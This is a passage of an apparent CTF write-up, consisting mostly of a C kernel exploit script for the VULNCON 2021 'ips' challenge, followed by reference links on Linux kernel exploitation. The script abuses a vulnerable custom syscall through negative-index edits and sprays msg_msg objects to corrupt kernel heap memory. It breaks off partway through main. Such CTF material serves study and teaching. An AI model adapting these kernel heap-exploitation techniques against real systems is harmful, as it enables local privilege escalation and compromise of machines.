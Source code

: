 

# 0x04 Exploitation Script

```c
#include "libx.h"
// https://github.com/n132/libx/tree/main
#include "libx.h"
#define ISP 548
typedef struct {
  int idx;
  unsigned short priority;
  char *data;} dt;
void add(char *buf, int priority){
    dt dt;
    dt.priority = priority;
    dt.data = buf;
    return syscall(ISP,1,&dt);
}
void del(int idx){
    dt dt;
    dt.idx = idx;
    return syscall(ISP,2,&dt);
}
void edit(int idx, char *buf){
    dt dt;
    dt.idx = idx;
    dt.data = buf;
    return syscall(ISP,3,&dt);

}
void copy(int idx){
    dt dt;
    dt.idx = idx;
    return syscall(ISP,4,&dt);
}
int main()
{   
    char *atk = malloc(0x1000);
    memset(atk,'\1',0x1000);
    size_t *hook = &atk[0xfd0];
    char *ctx = calloc(1,0x1000);

    
    for(int i= 0 ; i< 0x10;i++)
    {
        memcpy(ctx,dp('i',10),10);
        add(ctx,0x1000+i);
    }
        
    copy(0);
    del(0);
    int msgid1 = msgGet();
    int msgid2 = msgGet();
    msgSend(msgid1,"Wat",0x50);
    
    edit(-1,strcat(dpn('\xff',10,18),p64(0x2024)));
    msgMsg* msg = msgRecv(msgid1,0x1000);
    msgSend(msgid2,"Wat",0x50); // Refil
    edit(-1,strcat(dpn('\xff',10,18),p64(0x2024)));
    char *msg_ctx = msg->mtext;
    

```

[0]: https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/
[1]: https://kileak.github.io/ctf/2021/vulncon-ips/
[2]: https://elixir.bootlin.com/linux/latest/source/ipc/msg.c
[3]: https://duasynt.com/blog/linux-kernel-heap-feng-shui-2022
[4]: https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/
[5]: https://github.com/sajjadium/ctf-archives/tree/0328b950496e5d12b775e8bd67d1569977ec10c0/ctfs/VULNCON/2021/pwn/ips
[6]: https://n132.github.io/2024/02/09/IPS.html
[7]: https://elixir.bootlin.com/linux/latest/C/ident/freelist_ptr_encode